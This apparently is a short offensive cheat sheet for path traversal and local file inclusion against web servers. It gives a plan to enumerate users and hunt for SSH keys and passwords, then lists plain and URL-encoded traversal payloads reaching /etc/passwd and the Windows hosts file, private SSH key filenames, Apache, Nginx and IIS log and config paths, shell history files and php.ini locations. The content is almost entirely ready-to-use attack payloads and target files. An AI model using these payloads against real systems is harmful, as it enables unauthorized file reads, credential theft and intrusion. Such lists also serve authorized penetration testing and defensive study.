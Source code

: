 1. View users on machine
2. Search for SSH Keys
3. Search for passwords in log or configuration files (.htaccess, config.php)

```http
/../../../../../../../../../etc/passwd
../../../../../../../../../etc/passwd
../../../../../../../../../windows/system32/drivers/etc/hosts
..\..\..\..\..\..\..\..\..\windows\system32\drivers\etc\hosts

/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/windows/system32/drivers/etc/hosts
\%2e%2e\%2e%2e\%2e%2e\%2e%2e\%2e%2e\%2e%2e\%2e%2e\%2e%2e\windows\system32\drivers\etc\hosts
```

##### SSH Keys
```bash
id_rsa
id_ecdsa
id_ecdsa_sk
id_ed25519
id_ed25519_sk
id_dsa

authorized_keys
id_rsa.keystore
id_rsa.pub
known_hosts
```

##### HTTPD, Apach2, Nginx logs
```bash
/var/log/apache/access.log 
/var/log/apache2/access.log 
/var/log/apache/access_log 
/var/log/apache2/access_log
/var/log/access_log
/var/log/nginx/access.log 
/var/log/nginx/access_log 
/etc/httpd/logs/acces_log 
/etc/httpd/logs/error_log 
/var/www/logs/access_log 
/var/www/logs/access.log 
/usr/local/apache/logs/access. log 
/opt/apache2/logs/access_log
/opt/apache2/logs/access.log
/opt/apache/logs/access_log
/opt/apache/logs/access.log
```

##### IIS
```bash
C:\inetpub\logs\LogFiles\W3SVC1\
C:\inetpub\wwwroot\web.config
```

##### Linux user specific
```bash
.bash_history
.mysql_history
.my.cnf
```

##### Windows
```powershell
c:\apache\php\php.ini 
c:\xampp\apache\bin\php.ini  
c:\xampp\apache\logs\access.log
c:\Program Files\Apache Group\Apache\conf\httpd.conf  
c:\Program Files\Apache Group\Apache2\conf\httpd.conf  
c:\Program Files\xampp\apache\conf\httpd.conf  
```